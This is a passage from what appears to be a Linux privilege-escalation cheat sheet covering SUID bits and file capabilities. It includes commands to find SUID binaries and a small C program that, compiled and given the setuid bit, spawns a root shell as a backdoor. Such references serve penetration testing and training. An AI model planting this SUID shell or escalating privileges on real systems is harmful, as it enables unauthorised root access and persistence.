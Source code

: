 ## SUID

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is ran, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

```powershell
╭─swissky@lab ~  
╰─$ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
```

### Find SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```


## Capabilities

### List capabilities of binaries 

```bash
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### Edit capabilities

```powershell
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### Interesting capabilities
